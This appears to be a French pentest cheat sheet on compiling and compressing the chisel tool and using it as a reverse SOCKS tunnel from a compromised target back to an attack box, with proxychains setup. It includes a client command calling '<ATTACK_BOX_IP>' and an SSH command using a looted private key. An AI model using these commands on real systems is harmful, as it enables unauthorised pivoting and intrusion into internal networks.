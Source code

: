 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Installation et réduction de la taille

```shell
git clone https://github.com/jpillora/chisel.git
cd chisel
# stripping
go build -ldflags="-s -w"  # réduction de 10 Mo à 6 Mo
# sinon "static linking" (rend plus portable mais plus gros)
go build -gccgoflags="-s -w --static"
# compression
upx brute chisel # réduction de 6 à 1.5Mo
```

### Attackbox

On commence par lancer un serveur sur notre machine (on veut que le client chisel se connecte à nous car en général les connexions sortantes sont autorisées mais pas le contraire. C'est un peu l'équivalent du côté "reverse" d'un reverse shell)

```
chisel server -p 443 --reverse
```

### Cible

On lance chisel en mode client (pour qu'il se connecte à notre serveur).

Une fois lancé, on souhaite qu'il exécute un serveur socks5.

En principe, un serveur socks s'exécute côté serveur, mais dans notre cas, on souhaite que le serveur socks s'exécute sur notre cible (donc côté client).

On utilisera pour ce faire le `R` qui signifit "reverse" pour inverser le sens du tunnel.

On aura donc un serveur socks qui s'exécutera sur notre client et qui sera accessible depuis notre serveur sur un port qui, par défaut, sera le 1080.

```
# écoutera sur le port par défaut (1080) du serveur (attaquant) 
chisel client <ATTACK_BOX_IP>:443 R:socks

# si on souhaite modifier le port par défaut :
chisel client <ATTACK_BOX_IP>:443 R:socks:1234

```

## Utilisation

On se connectera en utlisant `proxychain`.

On commence par modifier le fichier de configuration `/etc/proxychains4.conf` et ajouter à la fin la section :

```
[ProxyList]
socks5 127.0.0.1 1080
# on peut éventuellement chainer les proxy socks sur lesquels rebondir en ajouter d'autres lignes à la suite
```

Une fois configuré, il ne reste plus qu'à préfixer nos commandes favorites de `proxychain` :

```
# Connexion SSH via le tunnel socks
proxychains ssh user@<IP_HOTE_ACCESSIBLE_DANS_LE_LAN_DE_NOTRE_CIBLE>
```

```
chisel server -p 443 --reverse

ssh webadmin@$TARGET_IP -i loot/id_rsa1 -D 1080  -R 1234:0.0.0.0:443 -v   
```
